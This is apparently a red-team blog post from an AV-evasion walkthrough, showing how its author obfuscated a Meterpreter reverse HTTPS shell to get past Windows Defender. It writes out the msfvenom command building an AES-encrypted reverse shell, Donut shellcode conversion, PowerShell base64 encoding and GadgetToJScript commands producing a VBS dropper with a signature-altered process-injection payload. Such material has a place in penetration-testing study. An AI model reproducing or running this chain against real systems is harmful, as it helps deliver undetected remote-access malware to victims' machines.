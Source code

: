 ```yaml
---
title: "Evasion: Bypassing AV through malware obfuscation techniques"
author: Maximilian Marx
date: 2021-01-31 14:12:00 +0100
categories: [Red Teaming]
tags: [Malware, Exploit Development, Evasion]
---math: true
mermaid: true
---image: /assets/img/studiumplus.svg
---
```


When I was enrolled in PWK to obtain my OSCP, we (the students) luckily did not have to bother with up-to-date installed Antivirus software on the machines within the lab. Even though we learned some techniques to bypass UAC, bypassing AV software such as Windows Defender (installed by default on Windows 10) was kept a secret.

However, speaking from a Red Teaming perspective, it's crucial to know how to bypass installed AV software, because (as I've already written) Windows Defender is installed by default.

Evasion techniques (bypassing AV) is an ongoing game of cat-and-mouse. As new techniques are introduced, they often get patched within a short amount of time.

I'm currently working my way through the Advanced Penetration Testing course from INE/eLearnSecurity (eCPTX). They introduced some techniques for AV evasion. I spent some time to obfuscate a Meterpreter reverse shell and was able to bypass an up-to-date Windows 10 Defender (at this point of writing).

This isn't going to be an in-depth step-by-step guide. However I'll mention which tools I used.

> I'd like to mention something prior: I first intended to obfuscate a Covenant Grunt. It was working and I got back a connection from the compromised machine. However the Grunt was dying a few seconds later. I tried to debug it, but unfortunately it was unsuccessful (might be a Covenant bug).

I started by generating a Reverse HTTPS Meterpreter Shell (x64 architecture) including symmetric AES encryption.

```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=8443 exitfunc=thread -a x64 --encrypt aes256 --encrypt-key XmgTNffxyx5Rx6N6 -f exe -o httpsaes.exe
```

Right after that I used [**Donut**](https://github.com/TheWover/donut) to generate shellcode from the previously generated binary.

```shell
donut.exe -a 2 httpsaes.exe
```

Before I was able to move on I had to convert the Donut-generated shellcode into Base64 using PowerShell:


```shell
$shellcode = "C:\Users\Operator\Desktop\shellcode.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes($shellcode)) > base64.txt
```

Next up I was using [**GadgetToJScript**](https://github.com/rasta-mouse/GadgetToJScript) to generate a VBS file, which will get executed on the target machine.

Download the repository and open it with Visual Studio. Once opened open/create `TestClass.cs` within the TestPayload directory.

I used a Process Injection PoC found on GitHub - but any other Process Injection / shellcode execution technique should work fine, too. I didn't just paste it in `TestClass.cs` - no. I removed all comments, added some myself and renamed some variables to modify the signature of the code.

I compiled GadgetToJScript through Visual Studio. After that step I was able to generate the VBS (excluding the extension).

```shell
.\GadgetToJScript.exe -i .\..\..\..\..\TestPayload\TestClass.cs -r System.Core.dll -w vbs -o C:\Users\Operator\Desktop\evaded
```

![img-description](/assets/img/windows-defender-bypass.gif)_Proof-of-Concept demonstration_